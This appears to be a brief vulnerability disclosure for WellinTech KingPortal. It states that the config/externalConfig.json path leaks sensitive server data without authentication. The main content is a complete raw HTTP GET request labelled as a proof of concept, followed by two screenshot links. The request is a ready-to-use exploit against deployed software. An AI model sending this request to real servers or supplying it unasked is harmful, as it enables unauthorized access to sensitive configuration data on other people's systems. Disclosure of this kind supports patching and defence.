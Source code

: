 # WellinTech KingPortal information leakage vulnerability

WellinTech KingPortal has an information leakage vulnerability, allowing attackers to bypass authentication and obtain server data.

Simply access the config/externalConfig.json page of the KingPortal system (http://xxxxx.com/config/externalConfig.json) to obtain sensitive data from the attacked website's server.
POC
`GET /config/externalConfig.json HTTP/1.1
Host: xxxxxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6,zh-HK;q=0.5,ja;q=0.4
Connection: close

`
![image.png](https://s2.loli.net/2024/11/13/khbyAz1rN4OSoYt.png)

![image-20241113213311066.png](https://s2.loli.net/2024/11/13/Nc1qHVK4DkwjG6O.png)


